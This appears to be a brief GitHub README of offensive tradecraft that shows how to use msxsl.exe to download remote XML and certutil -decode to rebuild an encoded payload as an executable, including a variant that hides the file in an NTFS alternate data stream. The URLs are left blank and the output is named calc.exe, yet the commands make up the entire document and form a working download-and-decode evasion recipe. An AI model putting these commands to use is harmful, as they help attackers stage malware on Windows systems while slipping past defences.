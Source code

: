 # Use-msxsl-to-download-file

Use MSXSL to download XML with certutil encoded payload
```
msxsl.exe "https:// " "https:// " -o <filename>

certutil -decode <filename> calc.exe
```

Use MSXSL to download XML with certutil encoded payload and save to ADS:
```
msxsl.exe "https:// " "https:// " -o <filename>:<ADS name>

certutil -decode test:pest calc2.exe
```
